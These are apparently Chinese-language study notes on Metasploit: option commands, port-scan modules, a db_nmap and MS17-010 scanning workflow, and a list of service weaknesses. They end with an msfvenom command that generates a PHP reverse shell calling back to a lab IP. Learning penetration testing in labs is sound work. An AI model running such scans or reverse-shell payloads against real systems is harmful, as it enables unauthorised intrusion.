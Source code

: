 ```yaml
---
icon: pen-to-square
date: 2025-03-31
tags: 
title: Metasploit
category:
  - 项目
---
```

## unset 
### **基本用法**
```bash
unset <选项名称>
```

或取消所有选项：
```bash
unset all
```
setg
search
Metasploit拥有许多扫描端口的模块
```bash
msf6 > search portscan Matching Modules ================ # Name Disclosure Date Rank Check Description - ---- --------------- ---- ----- ----------- 0 auxiliary/scanner/http/wordpress_pingback_access normal No Wordpress Pingback Locator 1 auxiliary/scanner/natpmp/natpmp_portscan normal No NAT-PMP External Port Scanner 2 auxiliary/scanner/portscan/ack normal No TCP ACK Firewall Scanner 3 auxiliary/scanner/portscan/ftpbounce normal No FTP Bounce Port Scanner 4 auxiliary/scanner/portscan/syn normal No TCP SYN Port Scanner 5 auxiliary/scanner/portscan/tcp normal No TCP Port Scanner 6 auxiliary/scanner/portscan/xmas normal No TCP "XMas" Port Scanner 7 auxiliary/scanner/sap/sap_router_portscanner normal No SAPRouter Port Scanner
```
同样也可以用show option进行设置
- **并发：** 要同时扫描的目标数。
- **port：** 要扫描的端口范围。请注意，这里的 1-1000 与使用 Nmap 和 default 配置。Nmap 将扫描 1000 个最常用的端口，而 Metasploit 将从 1 个开始扫描端口号 设置为 10000。
- **主机：**要扫描的目标或目标网络。
- **线程：**将同时使用的线程数。线程越多，扫描速度就越快。

hosts指令用于查找之前设定的目标ip

可以使用nmap数据库与其他模块进行交互
1. **先使用 `db_nmap` 扫描网络**，获取开放的 445 端口的主机信息。
    
2. **再使用 `auxiliary/scanner/smb/smb_ms17_010` 模块**，针对开放 445 端口的主机进行 MS17-010 漏洞扫描。
具体操作
先用db_nmap扫描端口并输入到数据库、
然后hosts -R从数据库中设置目标host

services查看数nmap据库中的服务信息

漏洞思路
- HTTP：可能托管一个 Web 应用程序，您可以在其中发现 SQL 注入或远程代码执行 （RCE） 等漏洞。
- FTP：可以允许匿名登录并提供对有趣文件的访问。
- SMB：可能容易受到 MS17–010 等 SMB 漏洞的攻击
- SSH：可能具有默认或易于猜测的凭据
- RDP：如果使用了弱凭据，则可能容易受到 Bluekeep 的攻击或允许桌面访问。


```bash
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
```
这是一个生成php反弹shell的命令